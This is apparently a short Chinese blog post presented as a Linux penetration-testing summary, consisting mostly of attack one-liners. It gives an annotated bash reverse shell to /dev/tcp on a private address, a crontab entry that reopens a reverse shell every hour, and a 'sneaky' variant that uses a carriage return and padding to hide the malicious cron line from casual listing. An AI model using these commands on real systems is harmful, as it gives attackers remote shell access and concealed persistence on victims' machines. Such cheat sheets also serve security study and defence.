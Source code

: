 ```yaml
---
title: 学习总结篇—Linux
date: 2019-8-27 00:20:02
author: dylan
top: false
cover: false
summary: 学习总结篇—Linux
password: 9f77c4517ffa5375fb7f06c0209facae53fd5e4b7b88986eb0c11591810b2dbe
categories: summary
tags: 
    - Linux
    - summary
---
```


# 前言

 Linux渗透测试总结

# bash

```
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

`bash -i`                   #交互的 shell 
`&`                         #标准错误输出到标准输出
`/dev/tcp/10.0.0.1/8080`    #建立 socket ip port
`0>&1`                      #标准输入到标准输出
```

```
(crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/IP/port;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -
```

## 猥琐版

```
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -
```
详细介绍：
[https://github.com/dylan903/security_circle_2017/blob/master/15288418585142.md](https://github.com/dylan903/security_circle_2017/blob/master/15288418585142.md)

# 参考文章

[史上最强内网渗透知识点总结](https://blog.csdn.net/qq_33020901/article/details/80547964)
